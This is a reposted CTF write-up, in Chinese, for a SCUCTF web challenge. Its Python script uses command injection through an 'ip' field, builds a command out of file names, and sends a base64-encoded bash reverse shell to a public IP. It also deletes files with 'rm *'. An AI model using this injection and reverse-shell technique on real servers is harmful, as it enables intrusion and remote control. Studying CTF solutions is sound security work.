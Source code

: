 <!--yml
category: 未分类
date: 2022-04-26 14:38:16
-->

# 2018 SCUCTF web题：cat？非常规题解_东坡何罪发文章总是审核不通过，去博客园了的博客-CSDN博客

> 来源：[https://blog.csdn.net/perfect0066/article/details/85108416](https://blog.csdn.net/perfect0066/article/details/85108416)

# 主要思路

1.寻找可以写入的目录
2.通过 **>** 构造文件名,在通过 **ls -th>g** 将命令写入文件
3.通过**bash -i >& /dev/tcp/你的公网ip/监听的端口 0>&1**构造反弹shell
4.在服务器使用 **"nc -lnvp 相应端口"**

# python脚本如下

```
 import requests
import time
url='http://120.78.66.77:87/exec.php'

tmp='1.1.1.1;cd /t*;'

data1=[
	'>dir',
	'>sl',
	'>g\>',
	'>ht-',
	'*>v',
	'>rev',
	'*v>x',
	'cat x']

for i in data1:
	i=tmp+i;
	r=requests.post(url,{'ip':i})

data2=[
        'rm d*',
        'rm s*',
        'rm g*',
        'rm h*',
        'rm v',
        'rm r*',
        '>g']
for i in data2:
	i=tmp+i;
	r=requests.post(url,{'ip':i})

data2_5=[
        '>\>a',
        '>d\\',
        '>\ -\\',
        '>e64\\',
        '>bas\\',
        '>\|\\']
for i in data2_5:
	i=tmp+i;
	r=requests.post(url,{'ip':i})

data3='YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMTAuNDQuNTcvODg4OCAwPiYx'
while data3 != '':
        i=tmp+'>'+data3[-2:]+r'\\'
        data3=data3[0:-2]
        r=requests.post(url,{'ip':i})

data4=[
        '>o\ \\',
        '>ech\\',
        'sh x',
        'sh g',
        'rm *\'
        ]

for i in data4:
	i=tmp+i;
	r=requests.post(url,{'ip':i}) 
```